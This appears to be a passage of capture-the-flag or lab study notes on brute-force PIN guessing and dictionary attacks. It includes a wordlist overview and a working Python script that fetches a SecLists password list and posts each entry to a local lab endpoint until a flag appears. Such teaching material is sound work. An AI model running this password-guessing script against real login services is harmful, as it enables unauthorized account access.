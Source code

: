### Process:
1. The script systematically attempts all possible PINs (0000 to 9999).
2. It sends GET requests to a server endpoint `/pin` with each PIN.
3. The server responds with success and a flag when the correct PIN is guessed.

---

# Dictionary Attacks: Overview

## What is a Dictionary Attack?
A **dictionary attack** exploits human tendencies to use predictable, simple passwords like dictionary words or common phrases. By using a precompiled list of likely passwords, attackers can efficiently crack weak passwords, making it faster than brute-forcing.

## Brute Force vs. Dictionary Attack

| Feature                 | Dictionary Attack                                    | Brute Force Attack                              |
|-------------------------|------------------------------------------------------|-------------------------------------------------|
| **Efficiency**           | Faster and more efficient                           | Time-consuming and resource-intensive           |
| **Targeting**            | Can be tailored based on target info                | No targeting, tests all combinations            |
| **Effectiveness**        | Works well for weak passwords                       | Works for all passwords, but slower             |
| **Limitations**          | Ineffective against complex passwords               | Inefficient for complex passwords               |

## Wordlist Creation
- **Public Lists**: Collections of common passwords (e.g., rockyou.txt).
- **Custom Lists**: Built from target-specific information.
- **Pre-existing Lists**: Available with tools like SecLists.

### Example Wordlists:
| Wordlist                        | Description                                           | Source                |
|----------------------------------|-------------------------------------------------------|-----------------------|
| rockyou.txt                      | List of passwords from the RockYou breach.            | RockYou breach dataset|
| 2023-200_most_used_passwords.txt | Most used passwords as of 2023                        | SecLists              |

## Example: Dictionary Attack Script
### Python Script: `dictionary-solver.py`
```python
import requests

ip = "127.0.0.1"  # Your IP address
port = 1234       # Your port number

passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    print(f"Attempted password: {password}")
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
    if response.ok and 'flag' in response.json():
        print(f"Correct password: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

---
